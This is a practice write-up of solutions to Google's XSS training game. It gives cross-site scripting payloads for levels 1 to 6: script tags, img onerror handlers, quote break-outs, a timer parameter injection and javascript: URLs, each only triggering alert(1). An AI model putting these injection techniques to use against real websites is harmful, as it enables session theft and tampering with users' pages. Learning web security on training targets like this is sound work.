 ## Cross-site scripting (XSS)Cross-site scripting (XSS)

*https://xss-game.appspot.com/*

This is a note of practicing the xxs 

## Level 1
This is the most obvious and easiest one. Just insert following code and you're done:
```
<script>alert(1)</script>
```

## Level 2
Since the script won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use img tags along with the onerror attributes. Here you go:
```
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
```
## Level 3
Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see index.html:

```
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
```
As you see the num parameter is used to generate the img tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the onerror attribute to insert JS. Insert this into the URL address bar and you'll get your alert():
```
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
"Image " + parseInt(num) = Image + 3' onerror='alert(1)';
```
## Level 4
This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting https://xss-game.appspot.com/level4/frame?timer=' showed me following output:


https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('
```
    startTimer('');alert(1);var b=('');
```


## Level 5
This one was quite easy. On the first page you can see a link: https://xss-game.appspot.com/level5/frame/signup?next=confirm. Now let's have a look how this next parameter is used in confirm.html:

```
      <script>
            setTimeout(function() { window.location = '{{ next }}'; }, 5000);
      </script>
```
So the window.location is set based on the next parameter. This is a typical case for DOM based XSS. Besides that we have in signup.html:

```
      <br><br>
          <a href="{{ next }}">Next >></a>
      </body>
```
Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)

Insert your Mail

Click Next >>

Voila!
## Level 6
This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```
Afterwards the text after the hash is used as the scripts src:
```
      // Load this awesome gadget

      scriptEl.src = url;
```
[ref: ](http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/)
